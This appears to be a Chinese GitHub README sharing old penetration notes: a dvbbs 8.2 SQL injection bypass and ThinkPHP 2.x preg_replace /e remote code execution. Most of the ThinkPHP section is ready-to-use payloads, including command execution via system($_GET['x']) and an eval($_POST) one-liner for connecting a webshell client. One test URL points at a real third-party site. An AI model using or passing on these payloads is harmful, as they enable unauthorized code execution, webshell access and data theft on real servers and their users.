 # Permeable
## 很早以前收集的渗透资料，现在分享一下
## 点个小星星呗～


分享请注明来源～
https://github.com/w1109790800/Permeable


### 下面是几个文件的具体内容:
#### dvbbs 8.2 SQL注射漏洞分析

[dvbbs 8.2 SQL注射漏洞分析 全文]漏洞公告:http://seclists.org/bugtraq/2008/May/0330.html

利用方式:一个典型的sql注射漏洞,按照公告里说的用

password=123123&codestr=71&CookieDate=2&userhidden=2&comeurl=index.asp&submit=%u7ACB%u5373%u767B%u5F55&ajaxPost=1&am 

漏洞分析:动网在asp领域也算一个比较元老的程序,这次在8.2新版里有一个低级的错误.漏洞代码在login.asp 118行左右 

...... 

username=trim(Dvbbs.CheckStr(request("username"))) 

If ajaxPro Then username = unescape(username) 

...... 

取得的username是先经过检查然后再unescape解码,导致用urlencode模式就可以饶过任何检查,和php的urldecode导致的注射很类似,譬如用%2527就可以提交’过去了. 




#### ThinkPHP 漏洞

2.0版本 /ThinkPHP/Lib/Think/Util/Dispatcher.class.php

2.1版本/ThinkPHP/Lib/Core/Dispatcher.class.php

搜索preg_replace 有一段替换使用了/e模式, 而且thinkphp底层没有提供参数的过滤， 这边就直接崩溃了。

测试代码

/index.php/Module/Action/Param/${@phpinfo()}

http://www.js.10086.cn/wxcs/ppo/YC/index.php/Public/MedInsurance/1/%7B$%7Bphpinfo()%7D%7D

/admin//index.php/public/login

去掉login 版本信息出来

最近thinkphp框架爆出了一个任意代码执行漏洞，其威胁程序相当的高,漏洞利用方法如下：

index.php/module/aciton/param1/${@print(THINK_VERSION)}index.php

/module/aciton/param1/${@function_all()}

其中function_all代表任何函数，

比如:index.php/module/aciton/param1/${@phpinfo()}

获取服务器的系统配置信息等。

index.php/module/action/param1/{${system($_GET['x'])}}?x=ls -al

列出网站文件列表

index.php/module/action/param1/{${eval($_POST[s])}}

直接执行一句话代码，用菜刀直接连接.


